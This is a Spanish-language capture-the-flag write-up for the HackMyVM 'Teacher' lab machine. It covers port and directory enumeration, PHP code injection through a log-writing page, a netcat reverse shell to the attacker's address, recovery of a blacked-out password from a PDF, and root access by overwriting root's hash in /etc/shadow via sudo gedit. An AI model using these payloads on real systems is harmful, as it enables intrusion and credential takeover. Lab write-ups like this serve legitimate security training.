

# Teacher HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.24

## Nmap

Realizamos el primer escaneo

```
❯ sudo nmap -Pn -sS -n --min-rate 5000 --open -p- 10.0.2.24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-09 13:58 EST
Nmap scan report for 10.0.2.24
Host is up (0.00026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:17:F1:B0 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.02 seconds
```

Al entrar a la pagina tenemos este mensaje
```
Hi student, make this server secure please.

Our first server got hacked by cool and avijneyam in the first hour, that server was just a test but this server is important becouse this will be used for teaching, if we get hacked you are getting an F
```

Y en el codigo de la pagina encontramos
```
<!-- Yes mrteacher I will do it -->
```
Es posible que mrteacher sea un posible usuario

Comenzamos a buscar otros directorios con la herramienta de gobuster

```
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.24 -n -t 200 -x .php            
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.24
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/03/09 14:18:03 Starting gobuster in directory enumeration mode
===============================================================
/.php                 [Size: 274]
/log.php              [Size: 157753]
/manual               [Size: 307] [--> http://10.0.2.24/manual/]
/access.php           [Size: 12]
/.php                 [Size: 274]
/clearlogs.php        [Size: 0]
/server-status        [Size: 274]
Progress: 441120 / 441122 (100.00%)
===============================================================
2023/03/09 14:18:20 Finished
===============================================================
```

Encontramos un log.php, access.php y clearlogs.php

La pagina de access.php esta vacia, sin embargo inspeccionandola encontramos un ````
Esto nos puede indicar que quiza tenga que enviarle algun parametro, asi que procedere a fuzzear

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt -u http://10.0.2.24/access.php?FUZZ=FUZZ -t 200 -fs 12

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.24/access.php?FUZZ=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 12
________________________________________________

[Status: 200, Size: 14, Words: 2, Lines: 1, Duration: 0ms]
    * FUZZ: id

:: Progress: [211/211] :: Job [1/1] :: 46 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Encontramos un posible parametro 'id'

Probando el parametro id, vemos que el funcionamiento de las paginas es el siguiente:
**access.log :** Escribes mediante el parametro ID, el cual es vulnerable a htmlI y xss y a codigo php.
**log.php :** Nos muestra lo que escribimos en access.log
**clearlog.php :** Borra todos los logs para iniciar de nuevo

Ya sabiendo como funcionan voy a ejecutar codigo mediante php de prueba para que vean como seria:
```
link: http://10.0.2.24/access.php?id=<?php system("id")?>
'>
```
```
link: http://10.0.2.24/log.php
your logs: uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Ya teniendo este ejemplo podemos aprovecharnos para enviar $_GET['cmd'] y nos deje realizar comandos
```
link: http://10.0.2.24/access.php?id=<?php system("id")?>
'>
```
```
link: view-source:http://10.0.2.24/log.php?cmd=ls%20-la
your logs: 
 total 5332
drwxr-xr-x 2 root      root         4096 Aug 26  2022 .
drwxr-xr-x 3 root      root         4096 Aug 24  2022 ..
-rw-r--r-- 1 root      root          191 Aug 25  2022 access.php
-rw-r--r-- 1 root      root           48 Aug 26  2022 clearlogs.php
-rw-r--r-- 1 mrteacher mrteacher 5301604 Aug 25  2022 e14e1598b4271d8449e7fcda302b7975.pdf
-rw-r--r-- 1 root      root          315 Aug 26  2022 index.html
-rwxrwxrwx 1 root      root           43 Mar 10 00:03 log.php
-rw-r--r-- 1 root      root       130469 Aug 26  2022 rabbit.jpg
```

Ahora realizaremos un reverse shell con revshell
para que pueda utilizar una terminal

``http://10.0.2.24/log.php?cmd=nc%2010.0.2.4%20443%20-e%20%2Fbin%2Fbash``

Nada mas entrar en la maquina upgradeamos nuestra shell a una shell inteligente
(En otros writeups ya esta como se hace)

Ahora si en la maquina victima vemos los archivos y nos salta a la cara un pdf de mrteacher
```
www-data@Teacher:/var/www/html$ ls
access.php     e14e1598b4271d8449e7fcda302b7975.pdf  log.php
clearlogs.php  index.html			     rabbit.jpg
```

Nos lo descargamos a nuestra maquina 

```
❯ wget http://10.0.2.24/e14e1598b4271d8449e7fcda302b7975.pdf 
--2023-03-09 15:23:43--  http://10.0.2.24/e14e1598b4271d8449e7fcda302b7975.pdf
Connecting to 10.0.2.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5301604 (5.1M) [application/pdf]
Saving to: ‘e14e1598b4271d8449e7fcda302b7975.pdf’

e14e1598b4271d8449 100%[=============>]   5.06M  --.-KB/s    in 0.01s   

2023-03-09 15:23:43 (388 MB/s) - ‘e14e1598b4271d8449e7fcda302b7975.pdf’ saved [5301604/5301604]
```

Revisando el pdf con Okular 
Vemos que al final en la hoja numero 8 esta el password pero esta cubierto con tinta negra



Mirando un poco mas el pdf vemos que la hoja 7 era la pagina de atras y se nota un poco la contrasena


Asi a vista rapida intente revertirlo

```
Pass = ThpnKYouTeacHera
Pass = ThankYouTeachers
```

Ok una vez entramos por ssh encontramos la primera flag

```
mrteacher@Teacher:~$ cat user
*****************5a29214ec839a6
```

Ahora ver como escalar privilegios
```
mrteacher@Teacher:~$ sudo -l
Matching Defaults entries for mrteacher on Teacher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrteacher may run the following commands on Teacher:
    (ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth
```

```
mrteacher@Teacher:~$ sudo /bin/gedit
Unable to init server: Could not connect: Connection refused

(gedit:1865): Gtk-WARNING **: 01:01:48.071: cannot open display:
```
Entonces ahora nos encontramos con un problema
buscando vemos que si ponemos un -X al conectarnos con ssh podemos ejecutar gedit desde la maquina victima pero viendolo en nuestra maquina atacante

```
❯ ssh mrteacher@10.0.2.24 -X 
```
Con esto ya podemos ejecutar gedit
ahora con xauth cambiamos nuestra magic-cookie de usuario por la de root

```
mrteacher@Teacher:~$ xauth list
Teacher/unix:10  MIT-MAGIC-COOKIE-1  489b48b972efd8355f4b68acec071afb
mrteacher@Teacher:~$ sudo xauth add Teacher/unix:10  MIT-MAGIC-COOKIE-1  489b48b972efd8355f4b68acec071afb
```

```
sudo gedit /etc/shadow

root:$y$j9T$JqgdH/Cy9gi7zhzh78n1e.$MKkEb1w15nYh.pwhVhFXtmE7NZcHvoiA60AZ8BMl9N1:19228:0:99999:7:::
daemon:*:19228:0:99999:7:::
bin:*:19228:0:99999:7:::
sys:*:19228:0:99999:7:::
sync:*:19228:0:99999:7:::
games:*:19228:0:99999:7:::
man:*:19228:0:99999:7:::
lp:*:19228:0:99999:7:::
mail:*:19228:0:99999:7:::
news:*:19228:0:99999:7:::
uucp:*:19228:0:99999:7:::
proxy:*:19228:0:99999:7:::
www-data:*:19228:0:99999:7:::
backup:*:19228:0:99999:7:::
list:*:19228:0:99999:7:::
irc:*:19228:0:99999:7:::
gnats:*:19228:0:99999:7:::
nobody:*:19228:0:99999:7:::
_apt:*:19228:0:99999:7:::
systemd-network:*:19228:0:99999:7:::
systemd-resolve:*:19228:0:99999:7:::
messagebus:*:19228:0:99999:7:::
avahi-autoipd:*:19228:0:99999:7:::
sshd:*:19228:0:99999:7:::
mrteacher:$y$j9T$gOGCuq/iq84ssczF0sQBS1$Z6OoF9kPK824CPeFsPv.A9JvDFF5DEK0wB/neVm.Gi8:19228:0:99999:7:::
systemd-timesync:!*:19228::::::
systemd-coredump:!*:19228::::::
```

Ahora solo cambiamos el valor de root por los valores de mrteacher y nos movemos a root

```
root:$y$j9T$gOGCuq/iq84ssczF0sQBS1$Z6OoF9kPK824CPeFsPv.A9JvDFF5DEK0wB/neVm.Gi8:19228:0:99999:7:::
daemon:*:19228:0:99999:7:::
bin:*:19228:0:99999:7:::
sys:*:19228:0:99999:7:::
sync:*:19228:0:99999:7:::
games:*:19228:0:99999:7:::
man:*:19228:0:99999:7:::
lp:*:19228:0:99999:7:::
mail:*:19228:0:99999:7:::
news:*:19228:0:99999:7:::
uucp:*:19228:0:99999:7:::
proxy:*:19228:0:99999:7:::
www-data:*:19228:0:99999:7:::
backup:*:19228:0:99999:7:::
list:*:19228:0:99999:7:::
irc:*:19228:0:99999:7:::
gnats:*:19228:0:99999:7:::
nobody:*:19228:0:99999:7:::
_apt:*:19228:0:99999:7:::
systemd-network:*:19228:0:99999:7:::
systemd-resolve:*:19228:0:99999:7:::
messagebus:*:19228:0:99999:7:::
avahi-autoipd:*:19228:0:99999:7:::
sshd:*:19228:0:99999:7:::
mrteacher:$y$j9T$gOGCuq/iq84ssczF0sQBS1$Z6OoF9kPK824CPeFsPv.A9JvDFF5DEK0wB/neVm.Gi8:19228:0:99999:7:::
systemd-timesync:!*:19228::::::
systemd-coredump:!*:19228::::::
```

Ahora la password de root es la misma que la de mrteacher asi que simplemente nos cambiamos de usuario y obtenemos la flag

```
mrteacher@Teacher:~$ su root
Password: ThankYouTeachers
root@Teacher:/home/mrteacher# cd /root
root@Teacher:~# ls
root
root@Teacher:~# cat root
**************0l
```

